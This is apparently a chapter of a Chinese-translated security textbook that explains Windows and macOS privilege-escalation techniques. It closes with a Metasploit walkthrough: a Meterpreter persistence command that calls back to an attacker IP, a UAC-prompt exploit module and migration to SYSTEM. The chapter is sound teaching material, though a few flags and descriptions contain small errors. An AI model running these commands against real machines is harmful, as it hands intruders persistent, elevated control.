


# 第八章：特权升级

之前的章节已经解释了攻击过程，直到攻击者能够攻破一个系统为止。上一章第七章，*横向移动*，讨论了攻击者如何在被攻破的系统中移动而不被发现或触发任何警报。可以观察到一个普遍趋势，即攻击者使用合法工具来避免警报。在攻击生命周期的这个阶段，也可能会观察到类似的趋势。

本章将重点讲解攻击者如何提升他们已入侵的用户账户的特权。在这个阶段，攻击者的目标是获取所需的特权级别，以实现更大的目标。可能的目标包括大规模删除、损坏或窃取数据、禁用计算机、破坏硬件等。攻击者需要控制访问系统，以便成功实施他们的所有计划。大多数攻击者在开始实际攻击之前，都会力图获得管理员级别的特权。许多系统开发人员已经实施了最小特权原则，即为用户分配执行工作所需的最少特权。因此，大多数账户没有足够的权限来滥用或更改某些文件。黑客通常会入侵这些低特权账户，因此他们需要将其升级为更高的特权账户，才能访问文件或更改系统。

本章将涵盖以下主题：

+   渗透

+   避免警报

+   执行特权升级

+   结论

# 渗透

特权升级通常发生在攻击的深层阶段。这意味着攻击者已经完成了侦察并成功攻破了一个系统，从而获得了进入权限。之后，攻击者会通过横向移动在被攻破的系统中穿行，识别出所有感兴趣的系统和设备。在这个阶段，攻击者希望牢牢控制系统。攻击者可能已经入侵了一个低级账户，因此，他们会寻找具有更高特权的账户，以便进一步研究系统或为最终攻击做好准备。特权升级并不是一个简单的阶段，因为有时它会要求攻击者使用一系列技能和工具来提升特权。特权升级通常分为两类：横向特权升级和纵向特权升级。

# 横向特权升级

在水平权限升级中，攻击者使用一个普通账户访问其他用户的账户。这是一个简单的过程，因为攻击者并不主动寻求提升账户的权限，而是这些权限被授予给他。因此，在这种类型的权限升级中，攻击者不需要使用工具来提升账户权限。水平权限升级有两种主要方式。第一种是通过软件漏洞，在这种情况下，由于系统编码的错误，普通用户能够查看和访问其他用户的文件。如同所见，攻击者没有使用任何工具，但却能够访问那些本应受到普通用户保护的文件。

另一种情况是，攻击者侥幸攻破了管理员账户。在这种情况下，攻击者无需使用黑客工具和技术来提升被攻破账户的权限。因为该账户已经拥有管理员级别的权限，攻击者可以通过创建其他管理员级用户或直接使用已经攻破的账户来继续进行攻击。水平权限升级攻击通常通过在黑客攻破系统时窃取登录凭证的工具和技术来实现。在关于系统入侵的章节中，讨论了多种工具，展示了黑客如何恢复密码、从用户那里窃取密码或直接破解账户。在对黑客来说较为幸运的情况下，被攻破的用户账户属于具有高级权限的用户。因此，他们无需经历升级账户的困难。

# 垂直权限升级

另一种权限升级类型是垂直权限升级。它包含了更为复杂的权限升级技术，并包括使用黑客工具。尽管这种方法复杂，但并非不可能，因为攻击者需要执行管理员级别或内核级别的操作，才能非法提升访问权限。垂直权限升级虽然更加困难，但也更具回报，因为攻击者可以在系统中获得系统权限。一个系统用户拥有比管理员更多的权限，因此能够造成更大的破坏。攻击者也更有可能在保持未被检测到的情况下，长期驻留并在网络系统中执行操作。拥有超级用户权限后，攻击者可以执行管理员无法阻止或干预的操作。垂直权限升级的技术因系统而异。在 Windows 中，一种常见的做法是通过缓冲区溢出来实现垂直权限升级。这已经在一个名为 EternalBlue 的工具中得到验证，该工具据称是 NSA 拥有的黑客工具之一。不过，该工具已经被一个名为 Shadow Brokers 的黑客组织公开。

在 Linux 中，垂直权限提升是通过允许攻击者获得 root 权限来修改系统和程序。在 Mac 中，垂直权限提升是通过称为**越狱**的过程完成的，允许黑客执行之前不被允许的操作。这些操作是制造商限制用户执行的，目的是保护设备和操作系统的完整性。垂直权限提升也可以在基于 Web 的工具上进行。通常是通过利用后端代码中的漏洞。有时，系统开发人员在不知情的情况下留下了可以被黑客利用的渠道，尤其是在提交表单时。

# 避免警报

就像在前面的阶段一样，黑客的目标是避免引发任何警报，表明受害系统已被入侵。尤其是在这个阶段，检测会非常昂贵，因为这意味着攻击者所做的所有努力都会付诸东流。因此，在进行此阶段之前，黑客通常会先禁用安全系统（如果可能）。权限提升的方法也相当复杂。大多数时候，攻击者必须创建包含恶意指令的文件，而不是使用工具对系统执行恶意操作。

大多数系统的编码仅允许合法的服务和进程获得特权。因此，攻击者会尝试危害这些服务和进程，以便获得执行更高权限的机会。黑客使用暴力破解方式获得管理员权限是有挑战的，因此他们通常选择最小阻力路径。如果这意味着创建与系统认定为合法的文件相同的文件，他们也会这么做。

避免警报的另一种方法是使用合法工具来执行攻击。如前几章所提到的，由于其强大功能，PowerShell 作为黑客工具的使用正在增加，而且许多系统不会触发警报，因为这是一个有效的、内置的操作系统工具。

# 执行权限提升

权限提升可以通过多种方式完成，具体取决于黑客的技能水平和权限提升过程的预期结果。在 Windows 中，管理员访问权限应该很少，普通用户不应拥有系统的管理员访问权限。然而，有时为了让远程用户能够进行故障排除并解决一些问题，给予他们管理员访问权限是必要的。这是系统管理员需要关注的事情。给予远程用户管理员访问权限时，管理员应谨慎确保这种权限不会被用来进行权限提升。当组织中的普通员工拥有管理员权限时，存在一定的风险，他们可能会为网络打开多个攻击路径。

首先，恶意用户也可以利用这一访问权限提取密码哈希值，之后可以用来恢复实际密码，或通过“传递哈希”直接在远程攻击中使用。这在第七章中已经有过详尽的讨论，*横向移动*。另一个威胁是他们可以利用自己的系统进行数据包捕获。他们还可以安装可能是恶意的软件。最后，他们还可能干扰注册表。因此，假设将管理员权限赋予用户是不好的。

由于管理员权限是严格保护的特权，攻击者通常需要使用多种工具和技术才能获得这一权限。苹果电脑在安全性方面有着相对更可靠的操作系统。然而，攻击者已发现多种方法可以在 OS X 中进行权限提升。

以下是一些常见的权限提升方法。

# 利用未打补丁的操作系统

和许多操作系统一样，Windows 会监控黑客可能利用的漏洞，并不断发布补丁来修复这些漏洞。然而，一些网络管理员未能及时安装这些补丁，有的管理员甚至完全忽视了补丁更新。因此，攻击者很可能会找到没有打补丁的机器。黑客使用扫描工具来获取网络中设备的信息，识别出那些没有打补丁的设备。可以用来扫描的工具在侦察章节中已有讨论，其中最常用的两个工具是 Nessus 和 Nmap。识别出没有打补丁的机器后，黑客可以在 Kali Linux 中查找可以利用的漏洞。Searchsploit 会包含可用于未打补丁计算机的相应漏洞。一旦找到漏洞，攻击者将入侵系统。攻击者随后会使用名为 PowerUp 的工具绕过 Windows 权限管理，将脆弱机器上的用户权限提升为管理员。

如果攻击者想避免使用扫描工具来验证当前系统状态（包括补丁），可以使用名为`wmic`的 WMI 命令行工具来获取已安装的更新列表，如下所示：



另一种选择是使用 PowerShell 命令`get-hotix`：


# 访问令牌操控

在 Windows 中，所有进程都是由某个用户启动的，系统知道该用户的权限和特权。Windows 通常使用访问令牌来确定所有正在运行的进程的所有者。这种特权提升技术被用来让进程看起来像是由与实际启动者不同的用户启动的。Windows 管理管理员权限的方式被利用了。操作系统将管理员用户登录为普通用户，但随后以管理员权限执行他们的进程。Windows 使用`以管理员身份运行`命令，以管理员权限执行进程。因此，如果攻击者能够欺骗系统，使其相信进程是由管理员启动的，这些进程将不受干扰地以完全的管理员权限运行。

访问令牌操控发生在攻击者巧妙地使用 Windows 内建的 API 函数从现有进程中复制访问令牌时。它们专门针对由管理员用户启动的进程。当攻击者将管理员的访问令牌粘贴到 Windows 中，并启动一个新进程时，该进程将以管理员权限执行。访问令牌操控也可以发生在黑客知道管理员凭证的情况下。这些凭证可以通过不同类型的攻击窃取，然后用于访问令牌操控。Windows 提供了以管理员身份运行应用程序的选项。为了实现这一点，Windows 会要求用户输入管理员登录凭证，以便以管理员权限启动程序/进程。

最后，访问令牌操控也可能发生，当攻击者使用窃取的令牌来验证远程系统进程时，只要被窃取的令牌在远程系统上具有相应的权限。

访问令牌操控在 Metasploit 中得到了广泛应用，Metasploit 是一个黑客和渗透测试工具，在第五章《破坏系统》中有详细讨论。Metasploit 具有一个 Meterpreter 有效载荷，可以执行令牌窃取，并使用被窃取的令牌以提升的权限运行进程。Metasploit 还有一个名为*The Cobalt Strike*的有效载荷，同样利用令牌窃取。该有效载荷能够窃取并创建自己的令牌，并且这些令牌具有管理员权限。该类型的特权提升方法的底线是，攻击者利用一个原本合法的系统。从某种意义上说，这可以视为攻击者的防御回避手段。

# 利用可访问性功能

Windows 有多个辅助功能，旨在帮助用户更好地与操作系统互动，特别是关注有视觉障碍的用户。这些功能包括：放大镜、屏幕键盘、显示切换和旁白。这些功能被方便地放置在 Windows 登录屏幕上，以便用户在登录的瞬间就能得到支持。然而，攻击者可以操纵这些功能，通过创建一个后门来绕过身份验证登录系统。这是一个相对简单的过程，并且可以在几分钟内完成。攻击者需要先通过 Linux LiveCD 攻破一台 Windows 计算机。这个工具将允许攻击者用临时的 Linux 桌面操作系统启动计算机。一旦进入计算机，包含 Windows 操作系统的驱动器将变得可见且可编辑。所有这些辅助功能都作为可执行文件存储在`System32`文件夹中。因此，黑客将删除其中一个或多个功能，并用命令提示符或后门替换它们。一旦替换完成，黑客退出后，当 Windows 操作系统启动时，一切看起来都会正常。然而，攻击者将有一种绕过登录提示的方法。当操作系统显示密码提示时，攻击者只需点击任何一个辅助功能并启动命令提示符。

将显示的命令提示符将以系统访问权限执行，这是 Windows 机器上最高级别的权限。攻击者可以使用命令提示符执行其他任务。它可以打开浏览器、安装程序、创建具有权限的新用户，甚至安装后门。攻击者还可以做的一件更独特的事情是，通过在命令提示符中输入命令`explorer.exe`来启动 Windows 资源管理器。Windows 资源管理器将会在攻击者甚至没有登录的计算机上打开，并以系统用户身份打开。这意味着攻击者可以在机器上自由操作，无需作为管理员登录。这种特权提升的方法非常有效，但它要求攻击者必须具有物理访问目标计算机的权限。因此，这通常由内部威胁或通过社会工程学进入组织的恶意行为者执行。

# 应用程序修补

应用修复程序是 Windows 应用兼容性框架的一部分，该框架是 Windows 为了允许程序在它们最初未被设计运行的操作系统版本上运行而创建的。大多数曾经在 Windows XP 上运行的应用程序如今可以在 Windows 10 上运行，正是因为有了这个框架。该框架的工作原理非常简单：它创建一个修复程序，作为遗留程序与操作系统之间的缓冲层。在程序执行过程中，修复程序缓存会被引用，以了解是否需要使用修复程序数据库。如果需要，修复程序数据库将使用 API 来确保程序的代码被有效地重定向，从而与操作系统进行通信。由于修复程序直接与操作系统进行通信，Windows 决定增加一项安全功能，即它们被设计为在用户模式下运行。

在没有管理员权限的情况下，修复程序无法修改内核。然而，攻击者已能够创建自定义修复程序，绕过用户帐户控制，将 DLL 注入正在运行的进程，并干扰内存地址。这些修复程序可以使攻击者以提升的权限运行他们自己的恶意程序。它们还可以用来关闭安全软件，特别是 Windows Defender。

下图展示了针对新版 Windows 操作系统使用自定义修复程序的示例：


查看一个修复程序如何创建的例子是很有帮助的。首先，你需要从 Microsoft 应用兼容性工具包中启动兼容性管理员。

下图展示了 Microsoft 的应用兼容性工具包（12）^：


接下来，你需要在“自定义数据库”中创建一个新数据库，方法是右键点击“新建数据库”（1）选项并选择创建一个新的应用修复程序。

下图展示了创建新应用修复程序的过程（12）：


下一步是提供你想为其创建修复程序的特定程序的详细信息：


接下来，你需要选择修复程序所要创建的 Windows 版本。在选择了 Windows 版本后，会显示针对该特定程序的多个兼容性修复。你可以自由选择你需要的修复：


点击“下一步”后，你选择的所有修复将显示出来，你可以点击“完成”来结束此过程。修复程序将被存储在新数据库中。要应用它，你需要右键单击新数据库并点击“安装”。完成后，程序将按照你在修复程序中选择的所有兼容性修复来运行：


# 绕过用户帐户控制

Windows 有一个结构良好的机制，用于控制网络中和本地计算机上所有用户的权限。它具有 Windows 用户帐户控制（**UAC**）功能，充当普通用户和管理员级用户之间的网关。Windows 的 UAC 功能用于授予程序权限，提升其权限，并以管理员权限运行。因此，Windows 总是提示用户允许程序以这种访问级别执行。值得注意的是，只有管理员用户才能允许程序以这些权限运行。因此，普通用户将被拒绝允许程序以管理员权限执行。

这看起来像是一个无懈可击的机制，只有管理员才能允许程序以提升的权限运行，因为他们可以轻松分辨出恶意程序和正常程序。然而，这个保护系统的机制中还是有一些漏洞。某些 Windows 程序允许提升权限或执行没有提示用户的 COM 对象。

例如，`rundl32.exe`用于加载一个自定义 DLL，该 DLL 加载一个具有提升权限的 COM 对象。它执行文件操作，即使是在通常需要用户拥有提升权限的受保护目录中。这样就为了解 UAC 机制并进行破坏的攻击者提供了机会。用于允许 Windows 程序无认证地运行的相同过程，也可以允许恶意软件以管理员权限运行。攻击者可以将恶意进程注入到一个受信任的进程中，从而获得以管理员权限运行恶意进程的优势，而不需要提示用户。

黑帽黑客发现了其他方法可以绕过 UAC（用户帐户控制）。GitHub 上发布了许多可能被用来对付 UAC 的方法。其中之一是`eventvwr.exe`，由于它通常在运行时会自动提升权限，因此可以被注入特定的二进制代码或脚本，从而受到攻击。另一种绕过 UAC 的方法是直接窃取管理员凭证。UAC 机制被认为是一个单一的安全系统，因此，一个计算机上运行的进程的权限对横向系统是未知的。因此，利用管理员凭证启动具有高级权限的进程的攻击者很难被抓到。

为了绕过 Windows 7 中的 UAC，你还可以使用`uacscript`，可以从[`github.com/Vozzie/uacscript`](https://github.com/Vozzie/uacscript)下载。

# DLL 注入

DLL 注入是攻击者使用的另一种特权提升方法。它还涉及到对 Windows 操作系统中合法进程和服务的危害。DLL 注入用于在合法进程的上下文中运行恶意代码。通过利用被认为是合法的进程上下文，攻击者获得了多个优势，尤其是能够访问进程的内存和权限。攻击者的行为也被合法进程所掩盖。最近发现了一种相当复杂的 DLL 注入技术，称为 **反射 DLL 注入**（13）。它更有效，因为它在不进行常规 Windows API 调用的情况下加载恶意代码，从而绕过 DLL 加载监控（13）。它使用一种巧妙的过程，将恶意库从内存加载到正在运行的进程中。与常规 DLL 注入过程不同，反射 DLL 注入没有从路径加载恶意 DLL 代码，这一过程不仅会创建外部依赖，还会降低攻击的隐蔽性，而反射 DLL 注入则将恶意代码以原始数据的形式来源。这种方法更难被检测到，即使在受到适当保护的安全软件的计算机上也一样。攻击者利用 DLL 注入攻击修改 Windows 注册表、创建线程以及进行 DLL 加载等操作。这些都是需要管理员权限的行为，但攻击者通过绕过这些权限悄悄执行。

以下图示简要说明了 DLL 注入的工作原理：


需要记住的是，DLL 注入不仅仅用于特权提升。以下是一些使用 DLL 注入技术的恶意软件示例，它们要么危害系统，要么传播到其他系统：

+   **Backdoor.Oldrea**：将自身注入到 `explore.exe` 进程中

+   **BlackEnergy**：作为 DLL 注入到 `svchost.exe` 进程中

+   **Duqu**：将自身注入到多个进程中以避免被检测

# DLL 搜索顺序劫持

DLL 搜索顺序劫持是另一种技术，用于危害 DLL 并允许攻击者提升其权限，从而推动攻击的进行。在这一技术中，攻击者试图将合法 DLL 替换为恶意 DLL。由于程序存储 DLL 的位置容易被识别，攻击者可能会将恶意 DLL 放置在搜索路径中的前面位置。因此，当 Windows 在正常位置搜索某个 DLL 时，它会找到一个具有相同名称的 DLL 文件，但它并非合法的 DLL。通常，这种类型的攻击发生在将 DLL 存储在远程位置的程序中，例如 Web 共享。这样，DLL 就更容易暴露给攻击者，他们不再需要物理接触计算机就能危害硬盘上的文件。

另一种 DLL 搜索顺序劫持的方法是修改程序加载 DLL 的方式。在这种情况下，攻击者修改*清单*或*本地方向*文件，导致程序加载一个不同于预期的 DLL。攻击者可以将程序重定向为始终加载恶意 DLL，这将导致持续的特权提升。攻击者还可以在受损程序行为异常时，将路径改回合法的 DLL。目标程序通常是以较高权限运行的程序。当这种方法应用到合适的程序时，攻击者基本上可以将特权提升为系统用户，从而访问更多的资源。

DLL 劫持比较复杂，需要小心谨慎地防止受害程序出现异常行为。如果发生了不幸（或幸运）的情况，用户意识到应用程序行为异常时，他或她可以直接卸载该程序。这样就可以有效阻止 DLL 劫持攻击。

下面的图示展示了搜索顺序劫持的示例，其中攻击者将一个恶意 DLL 文件放置在合法 DLL 文件的搜索路径上：


# Dylib 劫持

Dylib 劫持是一种针对苹果电脑的攻击方法。使用苹果 OS X 操作系统的计算机采用类似的搜索方法来查找应该加载到程序中的动态库。该搜索方法同样基于路径，就像在 DLL 劫持中所看到的那样，攻击者可以利用这些路径进行特权提升。攻击者通过研究特定应用程序使用的 dylib，并将一个名称相似的恶意版本放在搜索路径的前面。因此，当操作系统在查找应用程序的 dylib 时，它会首先找到恶意的那个。如果目标程序以比计算机用户更高的权限运行，当它启动时，特权将自动提升。在这种情况下，它还会为恶意 dylib 创建管理员级别的访问权限。

下图展示了 dylib 劫持的过程，攻击者将一个恶意 dylib 放置在搜索路径中：


# 漏洞探索

漏洞探索是目前少数几种横向权限提升方式之一。由于系统的编码和安全性要求非常严格，横向权限提升的案例通常较少。此类权限提升发生在存在编程错误的系统和程序中。这些编程错误可能会引入漏洞，攻击者可以利用这些漏洞绕过安全机制。一些系统会接受某些短语作为所有用户的密码。这可能是一个编程错误，允许系统开发人员快速访问系统。然而，攻击者可能会迅速发现这个缺陷，并利用它访问拥有高权限的用户账户。其他编程错误可能允许攻击者在基于网页的系统的 URL 中更改用户的访问权限。在 Windows 中，曾有一个编程错误，允许攻击者使用普通域用户权限创建带有域管理员权限的 Kerberos 票证。这个漏洞被称为**MS14-068**。尽管系统开发人员可能非常小心，但这些错误有时还是会出现，并为攻击者提供了快速提升权限的途径。

有时，攻击者会利用操作系统的工作原理来利用一个未知的漏洞。

一个经典的例子是使用注册表键`AlwaysInstallElevated`，该键存在于系统中（设置为 1），并允许以提升（系统）权限安装 Windows 安装程序包。为了使此键被认为是启用的，以下值应设置为 1：

```
[HKEY_CURRENT_USERSOFTWAREPoliciesMicrosoftWindowsInstaller] 
"AlwaysInstallElevated"=dword:00000001 
[HKEY_LOCAL_MACHINESOFTWAREPoliciesMicrosoftWindowsInstaller] 
"AlwaysInstallElevated"=dword:00000001 
```

攻击者可以使用`reg`查询命令来验证此键是否存在；如果不存在，将会显示以下消息：



这听起来可能无害，但如果深入思考，你会发现问题所在。你实际上是在给普通用户提供系统级权限来执行一个安装程序。如果这个安装包包含恶意内容怎么办？游戏结束！

# 启动守护进程

使用启动守护进程是另一种适用于基于 Apple 的操作系统（尤其是 OS X）的特权升级方法。当 OS X 启动时，`launchd`通常会运行以完成系统初始化。该进程负责加载来自`plist`文件的守护进程参数，这些文件位于`/Library/LaunchDaemons`目录中。守护进程有属性列表文件，指向要自动启动的可执行文件。攻击者可能利用这个自动启动过程来进行特权升级。他们可以安装自己的启动守护进程，并通过已启动的进程将其配置为在启动过程中启动。攻击者的守护进程可能会被赋予与操作系统或应用程序相关的伪装名称。启动守护进程是以管理员权限创建的，但它们以 root 权限执行。因此，如果攻击者成功，他们将能够使自己的守护进程自动启动，并将特权从管理员提升到 root。可以注意到，攻击者再次依赖一个原本合法的进程来执行特权升级。

# Windows 8 目标上特权升级的实际操作示例

该实际操作示例适用于 Windows 8，并且据报道在 Windows 10 上也有效。它利用了一些已经讨论过的技术，即 PowerShell 和 Meterpreter。这是一种狡猾的技术，迫使目标机器的用户在不知情的情况下允许合法程序运行，从而进行特权升级。因此，实际上是用户在不知情的情况下允许恶意行为者升级其特权。整个过程从 Metasploit 开始，特别是在 Meterpreter 中。首先使用 Meterpreter 与目标建立会话。攻击者利用这个会话向目标发送命令并有效地控制目标。

以下是一个名为`persistence`的脚本，攻击者可以用它与远程目标建立会话。该脚本在受害者的系统上创建一个持久化监听器，该监听器在启动时自动运行。

它的写法如下：

```
meterpreter >run persistence -A -L c:\ -X 30 -p 443 -r 10.108.210.25 
```

该命令在目标系统（`A`）上启动一个处理程序，将 Meterpreter 放置在受害者机器的`C`盘（`L c:\`），并指示监听器在启动时运行（`X`），每 30 秒检查一次（`i 30`），并连接到受害者 IP 地址的`443`端口。攻击者可以通过向目标机器发送`reboot`命令并观察其行为，检查连接是否简单。

`reboot`命令如下：

```
Meterpreter> reboot 
```

如果对连接满意，攻击者可以将会话转入后台并开始特权升级尝试。Meterpreter 将在后台运行该会话，并允许 Metasploit 执行其他漏洞攻击。

以下命令在 Metasploit 终端中发出：

```
Msf exploit (handler)> Use exploit/windows/local/ask 
```

这是一个适用于所有版本 Windows 的命令。它的作用是请求目标计算机上的用户在不知情的情况下提升攻击者的执行级别。用户必须在屏幕上点击一个看起来不怀疑的提示，允许运行某个程序。如果用户同意，则权限提升尝试成功；否则，尝试失败。因此，攻击者必须要求用户允许运行一个合法程序，而这就是 PowerShell 发挥作用的地方。因此，攻击者需要通过 PowerShell 设置 `ask` 技术。具体操作如下：

```
Msf exploit(ask)> set TECHNIQUE PSH 
Msf exploit(ask)> run 
```

在此时，目标用户的屏幕上会弹出一个提示，要求他们允许运行 PowerShell，这是一个完全合法的 Windows 程序。在大多数情况下，用户会点击“确定”。在获得此权限后，攻击者可以使用 PowerShell 从普通用户身份迁移到系统用户身份，具体如下：

```
Meterpreter> migrate 1340 
```

因此，`1340` 被列为 Metasploit 中的系统用户。当这一过程成功时，攻击者将成功获得更多权限。检查攻击者所拥有的权限应该会显示他们既拥有管理员权限，也拥有系统权限。然而，`1340` 管理员用户仅具有四个 Windows 权限，这不足以进行大规模攻击。因此，攻击者必须进一步提升其权限，以便获得足够的权限来执行更多恶意操作。攻击者接下来可以迁移到 `3772`，即 `NT AuthoritySystem` 用户。这可以通过以下命令实现：

```
 Meterpreter> migrate 3772
```

攻击者仍然拥有管理员和 root 用户权限，并且还会获得额外的 Windows 权限。这些额外的权限有 13 项，可以让攻击者使用 Metasploit 对目标执行各种操作。

# 结论与经验总结

本章讨论了攻击过程中最复杂的阶段之一。尽管如此，并非所有使用的技术都很复杂。正如前面所说，有两种技术：水平权限提升和垂直权限提升。一些攻击者会使用水平权限提升方法，因为它们工作量较小且更容易执行。然而，经验丰富的黑客会使用垂直权限提升方法，因为他们对目标系统有很好的了解。本文介绍了一些这些权限提升方法。通过大多数方法可以看出，黑客必须针对合法进程和服务进行攻击，才能提升权限。这是因为大多数系统都是基于最小权限原则构建的。用户只会被授予完成其职责所需的最低权限。只有合法的服务和进程才会被授予高级权限，因此，攻击者通常需要妥协这些服务和进程。

# 参考资料

1.  A. Gouglidis, I. Mavridis 和 V. C. Hu，*云系统中多域安全策略验证*，《国际信息安全杂志》，第 13 卷，第 2 期，第 97-111 页，2014 年。可用：[`search.proquest.com/docview/1509582424\. DOI: http://dx.doi.org/10.1007/s10207-013-0205-x`](https://search.proquest.com/docview/1509582424.%20DOI:%20http://dx.doi.org/10.1007/s10207-013-0205-x)。

1.  T. Sommestad 和 F. Sandström，*攻击图分析工具准确性的实证测试*，《信息与计算机安全》，第 23 卷，第 5 期，第 516-531 页，2015 年。可用：[`search.proquest.com/docview/1786145799`](https://search.proquest.com/docview/1786145799)。

1.  D. A. Groves，*通过隔离提高工业控制系统安全性：一个危险的神话*，《美国水务协会期刊》，第 103 卷，第 7 期，第 28-30 页，2011 年。可用：[`search.proquest.com/docview/878745593`](https://search.proquest.com/docview/878745593)。

1.  P. Asadoorian，*Windows 权限提升技巧（本地） - 安全周刊 #2 - 安全周刊*，安全周刊，2017 年。[在线]. 可用：[`securityweekly.com/2017/05/18/windows-privilege-escalation-techniques-local-tradecraft-security-weekly-2/`](https://securityweekly.com/2017/05/18/windows-privilege-escalation-techniques-local-tradecraft-security-weekly-2/)。[访问日期：2017 年 8 月 16 日]。

1.  C. Perez，*Meterpreter 令牌操作*，Shell 只是一个开始，2017 年。[在线]. 可用：[`www.darkoperator.com/blog/2010/1/2/meterpreter-token-manipulation.html`](https://www.darkoperator.com/blog/2010/1/2/meterpreter-token-manipulation.html)。[访问日期：2017 年 8 月 16 日]。

1.  S. Knight，*利用漏洞让命令提示符在 Windows 7 登录屏幕启动*，《TechSpot》，2017 年。[在线]. 可用：[`www.techspot.com/news/48774-exploit-allows-command-prompt-to-launch-at-windows-7-login-screen.html`](https://www.techspot.com/news/48774-exploit-allows-command-prompt-to-launch-at-windows-7-login-screen.html)。[访问日期：2017 年 8 月 16 日]。

1.  *应用程序补丁技术*，Attack.mitre.org，2017 年。[在线]. 可用： [`attack.mitre.org/wiki/Technique/T1138`](https://attack.mitre.org/wiki/Technique/T1138)。[访问日期：2017 年 8 月 16 日]。

1.  *绕过用户帐户控制*，Attack.mitre.org，2017 年。[在线]. 可用：[`attack.mitre.org/wiki/Technique/T1088`](https://attack.mitre.org/wiki/Technique/T1088)。[访问日期：2017 年 8 月 16 日]。

1.  *DLL 注入*，Attack.mitre.org，2017 年。[在线]. 可用：[`attack.mitre.org/wiki/Technique/T1055`](https://attack.mitre.org/wiki/Technique/T1055)。[访问日期：2017 年 8 月 16 日]。

1.  *DLL 劫持攻击重访*，信息安全资源，2017 年。[在线]. 可用： [`resources.infosecinstitute.com/dll-hijacking-attacks-revisited/`](http://resources.infosecinstitute.com/dll-hijacking-attacks-revisited/)。[访问日期：2017 年 8 月 16 日]。

1.  *Dylib-Hijacking Protection*，Paloaltonetworks.com，2017 年。[在线]。可用链接：[`www.paloaltonetworks.com/documentation/40/endpoint/newfeaturesguide/security-features/dylib-hijacking-protection.html`](https://www.paloaltonetworks.com/documentation/40/endpoint/newfeaturesguide/security-features/dylib-hijacking-protection.html)。 [访问日期：2017 年 8 月 16 日]。

1.  T. Newton，*Demystifying Shims - or - Using the App Compat Toolkit to make your old stuff work with your new stuff*，*Blogs.technet.microsoft.com*，2018 年。[在线]。可用链接：[`blogs.technet.microsoft.com/askperf/2011/06/17/demystifying-shims-or-using-the-app-compat-toolkit-to-make-your-old-stuff-work-with-your-new-stuff/`](https://blogs.technet.microsoft.com/askperf/2011/06/17/demystifying-shims-or-using-the-app-compat-toolkit-to-make-your-old-stuff-work-with-your-new-stuff/)。 [访问日期：2018 年 1 月 3 日]。

1.  *DLL Injection - enterprise*，*Attack.mitre.org*，2018 年。[在线]。可用链接：[`attack.mitre.org/wiki/Technique/T1055`](https://attack.mitre.org/wiki/Technique/T1055)。 [访问日期：2018 年 1 月 3 日]。

# 摘要

本章已经讲解了特权提升阶段。指出特权提升有两大类：垂直特权提升和水平特权提升。还特别提到，水平特权提升是攻击者所能期望的最佳运气。这是因为水平特权提升所用的方法通常不会太复杂。已经讨论了攻击者针对系统使用的许多复杂的垂直特权提升方法。值得注意的是，所讨论的大多数技术都涉及通过妥协合法服务和进程以获得更高权限的尝试。这可能是攻击者在整个攻击过程中必须执行的最后一个任务。

下一章将解释攻击者如何发起最后一击，并且如果成功，他们将如何收获努力的成果。
